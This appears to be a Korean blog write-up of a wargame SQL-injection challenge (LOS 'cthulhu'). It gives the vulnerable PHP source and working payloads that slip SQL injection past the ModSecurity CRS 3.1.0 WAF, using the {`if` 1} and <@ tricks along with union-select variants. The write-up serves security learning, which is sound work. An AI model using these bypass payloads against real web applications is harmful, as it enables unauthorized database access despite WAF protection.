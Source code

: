```yaml
---
title : "LOS Lv.33 cthulhu"
excerpt : "CRS 3.1.0 WAF bypass -> {`a` b}, <@"
toc: true
toc_sticky: true
categories :
  - rubiya
---
```


## cthulhu
```php
modsec.rubiya.kr server is running ModSecurity Core Rule Set v3.1.0 with paranoia level 1(default).
It is the latest version now.(2019.05)
Can you bypass the WAF?
query : select id from prob_cthulhu where id='' and pw=''

<?php
  include "./welcome.php";
  include "./config.php";
  login_chk();
  $db = dbconnect();
  if(preg_match('/prob|_|\.|\(\)|admin/i', $_GET[id])) exit("No Hack ~_~");
  if(preg_match('/prob|_|\.|\(\)|admin/i', $_GET[pw])) exit("No Hack ~_~");
  $query = "select id from prob_cthulhu where id='{$_GET[id]}' and pw='{$_GET[pw]}'";
  echo "<hr>query : <strong>{$query}</strong><hr><br>";
  $result = @mysqli_fetch_array(mysqli_query($db,$query));
  if($result['id']) solve("cthulhu");
  highlight_file(__FILE__);
?>
```

## Solution
```
필터링 되있는 것이 union, select, or 1 인 것 같음.

우선 대소문자 변형으로 해봄. -> uNiON, seLEct -> 실패

공백 우회 -> 실패

' union select 1 #을 url encode -> 실패
%27%20%75%6E%69%6F%6E%20%73%65%6C%65%63%74%20%31%23
```
CRS 3.1.0 sql injection bypass라 치면 나오는데 2가지가 있음. 

### 1. {`a` b}
<a href="https://github.com/SpiderLabs/owasp-modsecurity-crs/issues/1167" target="_blank">https://github.com/SpiderLabs/owasp-modsecurity-crs/issues/1167</a>

```
{`a` b}에서 

a는 if(), version() 같은 함수 이름들이 들어가고 (아무거나 쓰면 됨)

b는 sql문이 들어가게 됨.
```
```
mysql> select id from rubiya where id='' or {`if` 1};
mysql> select id from rubiya where id='' or {`version` 1};
mysql> select id from rubiya where id='' or {`replace` 1};
+-------+
| id    |
+-------+
| admin |
| guest |
| Admin |
+-------+
3 rows in set (0.00 sec)
```
```
?id=' or {`if` 1} %23
?id=' or {`version` 1} %23
?id=' or {`if` id=0x61646D696E} %23
?id=' or {`if` /*!50000id=0x61646D696E*/} %23 -> 안됨
```

### 2. <@
<a href="https://github.com/SpiderLabs/owasp-modsecurity-crs/issues/1181" target="_blank">https://github.com/SpiderLabs/owasp-modsecurity-crs/issues/1181</a>   

**```<@```으로 WAF 우회가 가능하다는 것.**
```
mysql> select ''<@1;
+-------+
| ''<@1 |
+-------+
|  NULL |
+-------+
1 row in set (0.00 sec)
```
```
mysql> select id from rubiya where id='-1'<@=1 or 1;
mysql> select id from rubiya where id=''<@=0 or 1;
mysql> select id from rubiya where id=''<@=2 or 1;
mysql> select id from rubiya where id=''<@ or 1;
mysql> select id from rubiya where id=''<@;
+-------+
| id    |
+-------+
| admin |
| guest |
| Admin |
+-------+
```
결국엔 ```id=NULL or 1```이 되는 듯함.  
그리고 이 방법으로 union select도 사용 가능!!!!!!
```
?id=-1'<@=1 OR {a 1}=1 OR '
?id='<@ or 1 %23
?id=' <@=2 or 1 %23
?id=' <@ union/**/select 1 %23
```